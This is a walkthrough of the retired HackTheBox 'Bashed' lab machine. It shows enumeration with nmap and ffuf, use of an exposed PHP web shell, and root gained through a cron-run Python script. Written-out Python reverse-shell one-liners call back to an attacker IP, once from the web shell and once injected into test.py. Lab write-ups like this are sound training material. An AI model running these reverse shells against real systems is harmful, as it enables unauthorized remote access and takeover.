





Boom Bashed 🧨💥
Table of Contents
Bashed is a retired HackTheBox machine, rated easy and rightfully. We’ll start by finding a hidden web shell to quickly gaining root level access due to misconfigured permissions to users.
Reconnaissance
nmap scan
Starting the reconnaissance with an initial Nmap scan.
nmap -sC -sV -oA nmap/bashed 10.129.183.146
-sC: run default nmap scripts
-sV: detect service version
-oA: output all formats and store in file nmap/bashed
Nmap scan report for 10.129.183.146
Host is up (0.037s latency).
Not shown: 999 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 14 20:59:03 2021 -- 1 IP address (1 host up) scanned in 8.09 seconds
We get the following result showing that port 80 is open with Apache HTTP Server running on it.
Enumeration
webapp running on port 80
Looks like the developer Arrexel, has created a PHP web shell for their own pentesting purposes, and states
that it was “developed on this exact server!” This indicates that there’s a high possibility that this web
shell is present somewhere on the server. Interesting! If we find the phpbash.php file, we can
potentially get a web shell!
Fun fact: Arrexel is the creator of this machine.

ffuf scan
Let’s do more enumeration on the web server and find what’s inside the website.
ffuf -c -r -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.183.146/FUZZ/
The flags breakdown as follows:
- -c : add color to output
- -r : follow redirects
- -t : timeout in seconds
- -w : path to wordlist
- -u : URL of website
- FUZZ : Parameter for fuzzing in exact location
________________________________________________
:: Method : GET
:: URL : http://10.129.183.146/FUZZ/
:: Wordlist : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
:: Follow redirects : true
:: Calibration : false
:: Timeout : 10
:: Threads : 200
:: Matcher : Response status: 200,204,301,302,307,401,403,405
________________________________________________
icons [Status: 403, Size: 295, Words: 22, Lines: 12]
images [Status: 200, Size: 1567, Words: 91, Lines: 20]
php [Status: 200, Size: 942, Words: 64, Lines: 17]
dev [Status: 200, Size: 1151, Words: 76, Lines: 18]
js [Status: 200, Size: 3168, Words: 190, Lines: 27]
css [Status: 200, Size: 1761, Words: 99, Lines: 21]
fonts [Status: 200, Size: 2098, Words: 124, Lines: 22]
uploads [Status: 200, Size: 14, Words: 1, Lines: 2]
[Status: 200, Size: 7743, Words: 2956, Lines: 162]
[WARN] Caught keyboard interrupt (Ctrl-C)
Gaining a Foothold
phpbash shell exposed
after checking all the directories with 200 status code, found something interesting in /dev
directory.

We’re running in the context of an Apache default user www-data. For this machine, we already have a low privileged shell that allows us to run linux commands on the web server, so we don’t necessarily need to get our own reverse shell.
However, in a real penetration test, you would place your own shell in the system just in case the creator notices his insecure configuration and takes down the php script. This way you’ll have consistent access to the system by a shell that you control.
The Pentestmonkey website has a list of reverse shells. Let’s Check if python exists on the target machine.
which python
Since python is installed on the machine! Copy the python command from the list and change it to your attack machine’s ip address and listening port.
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.172",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
In the attack machine (kali) set up a listener.
nc -nlvp 1234
We got the low privileged shell
we can find the user flag in /home/arrexel directory.

Privilege Escalation
Next, I need to figure out what other privileges I have or can easily get. The following command lists the allowed commands for my user.
$ sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
The last two lines are particularly interesting because it says that the user I’m running in the context of (www-data) can run as the user scriptmanager without having to provide the user’s password. This might come in handy later on.
Let’s do some more enumeration.
$ ls -la
total 88
drwxr-xr-x 23 root root 4096 Dec 4 2017 .
drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
drwxr-xr-x 2 root root 4096 Dec 4 2017 bin
drwxr-xr-x 3 root root 4096 Dec 4 2017 boot
drwxr-xr-x 19 root root 4240 Jul 14 15:02 dev
drwxr-xr-x 89 root root 4096 May 27 2020 etc
drwxr-xr-x 4 root root 4096 Dec 4 2017 home
lrwxrwxrwx 1 root root 32 Dec 4 2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x 19 root root 4096 Dec 4 2017 lib
drwxr-xr-x 2 root root 4096 Dec 4 2017 lib64
drwx------ 2 root root 16384 Dec 4 2017 lost+found
drwxr-xr-x 4 root root 4096 Dec 4 2017 media
drwxr-xr-x 2 root root 4096 Feb 15 2017 mnt
drwxr-xr-x 2 root root 4096 Dec 4 2017 opt
dr-xr-xr-x 114 root root 0 Jul 14 15:02 proc
drwx------ 3 root root 4096 Dec 4 2017 root
drwxr-xr-x 18 root root 520 Jul 14 15:02 run
drwxr-xr-x 2 root root 4096 Dec 4 2017 sbin
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 2017 scripts
drwxr-xr-x 2 root root 4096 Feb 15 2017 srv
dr-xr-xr-x 13 root root 0 Jul 14 15:02 sys
drwxrwxrwt 10 root root 4096 Jul 14 18:21 tmp
drwxr-xr-x 10 root root 4096 Dec 4 2017 usr
drwxr-xr-x 12 root root 4096 Dec 4 2017 var
lrwxrwxrwx 1 root root 29 Dec 4 2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
Everything in the root directory seems to be owned by root except for the scripts directory which is owned by scriptmanager. In the previous step we found out that we can run as scriptmanager without a password.
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 2017 scripts
Let’s change the user to scriptmanager.
sudo -i -u scriptmanager
Also setup Interactive Shell for better interaction.
export TERM=xterm-256color
python -c 'import pty; pty.spawn("/bin/bash")'

Now that we’re running as the scriptmanager, we have read/write/execute privileges in the scripts directory.
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 2017 .
drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Jul 14 18:35 test.txt
Most interesting is that the test.txt file is owned by root, and seems to be the result of the
test.py script, which is writable by scriptmanager. First, I tried moving test.txt to
test.txt.old. A few minutes later, it’s back:
scriptmanager@bashed:/scripts$ date
Wed Jul 14 21:57:03 EST 2021
scriptmanager@bashed:/scripts$ ls
test.py test.txt.old test2.py test3.py
scriptmanager@bashed:/scripts$ date
Wed Jul 14 21:59:03 EST 2021
scriptmanager@bashed:/scripts$ ls
test.py test.txt test.txt.old test2.py test3.py
Something is running that test.py script from the /scripts directory creates a test script
that writes to a different file, and it writes the different file. So any .py file seems to be run. Also,
since test.py doesn’t have a #! at the start, it seems that whatever is running this (maybe a cron?) is
calling python.
It is possible to just write a script that reads /root/root.txt and writes it elsewhere, but
it’s better to get a shell!
Let’s create the exploit:
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.172\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
On Kali, set up a listener, and get root shell:

Lessons I Learned:
- The developer should never put a webshell on the website. No matter if its hidden inside the directories. Tools like ffuf can find it in seconds. Developer must use SSH protocol instead to make a communication with webserver.
- Misconfigured permissions can cause destructions, Make sure web daemon user (www-data) should not be allowed for more privileges than it requires.
- I was little stucked in Privilege Escalation part, next time i’ll make sure to read the
permissions properly by using command
ls -lainstead of simplelscommand. I was also having difficulty to know whether the python script is run by a cron job.
Thanks for reading this post, if you like my work you can support by buying me a coffee. ☕️